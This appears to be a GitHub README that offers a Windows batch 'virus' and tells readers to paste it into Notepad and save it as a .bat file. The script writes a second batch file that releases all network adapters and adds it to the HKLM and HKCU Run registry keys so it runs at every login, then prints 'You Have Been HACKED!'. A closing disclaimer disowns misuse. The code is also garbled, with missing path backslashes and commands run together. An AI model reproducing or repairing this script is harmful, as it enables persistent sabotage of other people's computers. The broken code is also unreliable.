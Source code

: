 # Disable Windows Internet Permanently Bat File Virus
This code will Disable Internet Of The System After Executing The Files. 
<br>
<br>
copy the following code in notepad and save that with .bat extention
```bat
echo @echo off>c:windowswimn32.bat
echo break off>c:windowswimn32.bat echo
ipconfig/release_all>c:windowswimn32.bat
echo end>c:windowswimn32.batreg add
hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /freg add
hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /fecho You Have Been HACKED!
PAUSE
```
# URL
```url
https://oceanofanythingofficial.github.io/disable-internet-parmanently-bat-file-virus/
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

